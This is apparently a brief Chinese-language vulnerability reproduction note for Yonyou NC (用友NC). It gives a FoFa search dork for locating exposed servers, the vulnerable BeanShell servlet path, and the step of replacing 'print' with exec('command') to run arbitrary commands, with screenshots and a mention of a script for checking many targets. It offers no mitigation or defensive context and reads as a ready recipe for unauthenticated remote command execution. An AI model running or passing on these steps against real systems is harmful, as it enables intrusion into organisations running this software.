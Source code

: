 # 影响范围：
用友NC
# FoFa Dork
icon_hash="1085941792"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址
```/servlet/~ic/bsh.servlet.BshServlet```  
![image](images/servlet.png)
将```print```替换为```exec('command')```,evaluate。
![image](images/print.png)
返回结果：  
![image](images/exec.png) 
使用脚本批量验证：    
![image](images/script.png)  
